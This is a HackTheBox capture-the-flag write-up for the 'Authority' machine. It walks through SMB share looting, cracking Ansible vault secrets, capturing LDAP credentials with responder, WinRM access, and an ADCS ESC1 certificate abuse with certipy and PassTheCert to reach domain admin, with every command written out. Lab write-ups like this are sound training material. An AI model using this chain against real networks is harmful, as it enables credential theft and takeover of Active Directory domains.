Authority - Machine HackTheBox
IP: 10.10.11.222
Machine Name: Authority
Difficulty: Medium
We start with a scan using Nmap:
sudo nmap --min-rate 5000 -sS -n -vvv -Pn 10.10.11.222 -oN scan_ports_tcp
I saw several ports; I started by enumerating port 445 (SMB). I used crackmapexec to perform the domain enumeration, and through this process, I got "authority.htb":
crackmapexec smb 10.10.11.222
I added this to my /etc/hosts file.
echo "10.10.11.222 authority.htb" | sudo tee -a /etc/hosts
Subsequently, I chose to enumerate the shared resources, since no credentials were required to perform this task.
smbclient -L //authority.htb/ -N
The "development" resource caught my attention. I created a mount point in /mnt to work more comfortably.
sudo mkdir /mnt/development
sudo mount -t cifs //authority.htb/development /mnt/development -o user=,pass=
So, I simply went to the "/mnt/development" directory. There were several folders, and I went to "/mnt/development/Automation/Ansible". When going through various folders, I usually filter by terms such as "user", "username", "pass", "password", "admin", "domain name" and a few other words. When filtering by "password", I got the following:
grep -ri "password" .
I also noticed something related to "ansible-vault". However, I didn't want to go through file by file, so I simply displayed the name of each file with the "-l" flag and passed an xargs cat to read each one. This gave me the following information:
grep -ril "password" . | xargs cat
That file would be found in "/mnt/development/Automation/Ansible/PWM/defaults/main.yml". To get a hash, I used "ansible2john" as follows:
/usr/share/john/ansible2john.py /mnt/development/Automation/Ansible/PWM/defaults/main.yml > main.yml
I looked at three hashed passwords and noticed that two hashes shared the same password. The contents of my "ldap_hash" variable are as follows:
$ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764
Subsequently
/usr/share/john/ansible2john.py ldap_hash > ldap_hash.hash
john -w:/usr/share/wordlists/rockyou.txt ldap_hash.hashBingo! The password is "!@#$%^&*".
I needed to use Ansible, so I proceeded to install it.
pip install ansible
I decrypted both files corresponding to the Ansible hashes and got the following:

However, I did not find a valid use for the password in general. However, I did find a valid use for it in the "pwm_admin_password", since I had the corresponding user. I realized that I could use the same password.
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531
So I have the user "svc_pwm" and the password "pWm_@dm!N_!23". At this point, I decided to go to port "8443", which was associated with "pwm", a self-service web portal for any LDAP user accounts.

The credentials did not work initially, however, they did work in the "Configuration Manager". I simply entered the password and, in this case, the password did work!
Later, I realized that they were also valid in the "Configuration Editor". While in the editor, I scrolled to this section:

Then, I simply changed "ldaps" to "ldap", listening on the default port and pointing to my IP address. This was done in order for LDAP authentication to be done to me:

We put ourselves in listening mode by "responder":
sudo responder -I tun0
Subsequently, I clicked on "Test LDAP Profile". The authentication should come up and get the credentials of the user "svc_ldap".
Since WinRM was open on the default port 5985, I connected using "evil-winrm" with the credentials obtained.
evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
After a period of enumeration, listing ADCS in an AD can sound good, I proceeded to list ADCS. Active Directory Certificate Services (ADCS) is a set of services in the Microsoft Windows Server environment that enable the organization, creation, distribution and centralized management of digital certificates. These digital certificates are essential for establishing secure authentication.
certipy find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -vulnerable -text -stdoutAt the bottom, I can see that it has detected that the "CorpVPN" template is vulnerable to "ESC1":


To exploit this vulnerability, I will first create a computer in the domain:
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name computerfismathack$ -computer-pass password
After creating the computer in the domain, I will request a certificate using the newly created computer account:
echo "10.10.11.222 authority.authority.htb" | sudo tee -a /etc/hosts
certipy req -u 'computerfismathack$' -p 'password' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dc-ip 10.10.11.222 -dns authority.authority.htb
Subsequently, we will create two new certificates, one without private key and the other without including the certificate.
certipy cert -pfx administrator_authority.pfx -nokey -out authority.crt
certipy cert -pfx administrator_authority.pfx -nocert -out authority.key
I will make use of "PassTheCert", for this, I proceed to install it:
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py
Subsequently
python3 passthecert.py -action ldap-shell -crt authority.crt -key authority.key -domain authority.htb -dc-ip 10.10.11.222
Being inside the LDAP shell, I run the following command, which indicates that I want to add the user "svc_ldap" to the "Administrators" group:
add_user_to_group svc_ldap Administrators
Now, you are an administrator with the user "svc_ldap".
Do you have any questions or experience any problems trying to solve the machine? Contact me on Discord or just talk to me for a chat! I'm available to chat :).
FisMatHack#3733
Thanks for reading :)